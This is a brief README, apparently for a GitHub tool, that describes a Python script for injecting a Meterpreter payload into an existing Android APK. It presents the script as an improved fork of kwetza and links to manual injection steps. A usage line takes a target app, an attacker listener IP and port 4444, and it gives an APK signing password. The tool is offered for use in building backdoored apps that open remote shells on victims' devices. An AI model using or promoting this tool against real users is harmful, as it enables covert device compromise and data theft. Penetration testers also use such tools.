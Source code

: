 # Introduction

A new python 3 scripts used to infect an existing Android application with a Meterpreter payload



An optimized scripts of https://github.com/sensepost/kwetza without bugs for some apks and extra libraries.

The manual steps to inject can be found here: https://securitygrind.com/manually-injecting-meterpreter-payload-into-an-android-application/


# Usage

    python3 main.py lite.apk 192.168.1.4 4444
    
Password for sign apk: 123456


